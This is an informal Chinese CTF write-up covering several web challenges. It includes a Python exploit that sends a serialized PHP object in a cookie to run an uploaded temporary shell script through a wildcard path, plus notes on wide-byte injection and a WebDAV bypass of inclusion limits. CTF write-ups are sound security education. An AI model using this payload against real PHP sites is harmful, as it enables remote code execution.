 flag就在PHPINFO里面

其实这是一道简单题，之前我就测出来宽字节，不过应该是information_schema里面的列名被删了，
我以为是要注密码来登录，结果没想到。。然后反序列化也简单，至于后来给了hint之后解出仍然这
么少，可能就是本题的槽点之一。

minil{22dac17a-b2e6-41c7-b969-5b1687fc73e1}

 

 

 

### p

考点：反序列化、RCE绕过

~~听说和CTFshow的红包题第二弹几乎差不多，当时没做，不过我看了wp之后发现我的操作几乎~~
~~一毛一样，不知道为什么没出。日后来填坑~~

md，不知道为啥，之前我自己构造了一个文件上传表单，然后用bp的intruder发包，费力不讨好，死活弄不出来。

后来看了@blackwatch师傅的wp之后，直接起一个几行代码的python就可以的。。。。

被自己菜哭，不多BB，exp：

```
import requests
import base64

url = 'http://2c0b5cfcdee39a9fb6e7f5789943ca90.challenge.mini.lctf.online:1080/'
git = 'O:6:"github":2:{s:3:"cmd";s:26:"?><?=`. /??p/p?p??????`;?>";}'
git = base64.b64encode(git.encode()).decode()
cookies = {'git': git}
files = {'file': '#!/bin/sh\ncat /* | grep "minil"\n'}
a = requests.post(url, files=files, cookies=cookies)
print(a.text)
```

minil{7da6b052-6630-40d8-9e7a-ccd5ff098871}

 

 

 

### include

考点：PHP语言逻辑、WebDav协议绕过RFI限制

不想做。。日后填坑